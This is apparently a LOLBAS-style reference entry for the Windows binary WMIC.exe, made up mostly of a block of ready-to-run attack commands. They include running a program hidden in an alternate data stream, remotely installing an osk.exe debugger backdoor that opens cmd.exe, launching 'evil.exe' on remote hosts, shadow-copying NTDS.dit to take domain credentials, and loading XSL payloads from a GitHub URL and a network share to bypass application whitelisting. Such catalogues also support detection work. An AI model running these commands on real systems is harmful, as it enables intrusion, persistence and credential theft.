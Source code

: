 ## WMIC.exe

* Functions: Reconnaissance, Execute, Read ADS

```
wmic process call create calc    

wmic process call create '"c:\ads\file.txt:program.exe"'
   
wmic useraccount get /ALL    
    
wmic process get caption,executablepath,commandline     
    
wmic qfe get description,installedOn /format:csv    
    
wmic /node:"192.168.0.1" service where (caption like "%sql server (%")    
    
get-wmiobject –class "win32_share" –namespace "root\CIMV2" –computer "targetname"    
    
wmic /user:<username> /password:<password> /node:<computer_name> process call create "C:\Windows\system32\reg.exe add \"HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe\" /v \"Debugger\" /t REG_SZ /d \"cmd.exe\" /f"    
    
wmic /NODE: "192.168.0.1" process call create "evil.exe"    
    
wmic /node:REMOTECOMPUTERNAME PROCESS call create "at 9:00PM c:\GoogleUpdate.exe ^> c:\notGoogleUpdateResults.txt"    
    
wmic /node:REMOTECOMPUTERNAME PROCESS call create "cmd /c vssadmin create shadow /for=C:\Windows\NTDS\NTDS.dit > c:\not_the_NTDS.dit"    
     
wmic process get brief /format:"https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Wmic_calc.xsl"    
     
wmic os get /format:"MYXSLFILE.xsl"    
     
wmic process get brief /format:"\\127.0.0.1\c$\Tools\pocremote.xsl"   
```

Acknowledgements:
* Casey Smith - @subtee

Code sample:
* [Wmic_calc.xsl](Payloads/Wmic_calc.xls)   

Resources:
* https://stackoverflow.com/questions/24658745/wmic-how-to-use-process-call-create-with-a-specific-working-directory
* https://subt0x11.blogspot.no/2018/04/wmicexe-whitelisting-bypass-hacking.html
* https://twitter.com/subTee/status/986234811944648707

Full path:
```
c:\windows\system32\wbem\wmic.exe
c:\windows\sysWOW64\wbem\wmic.exe
```

Notes:



 
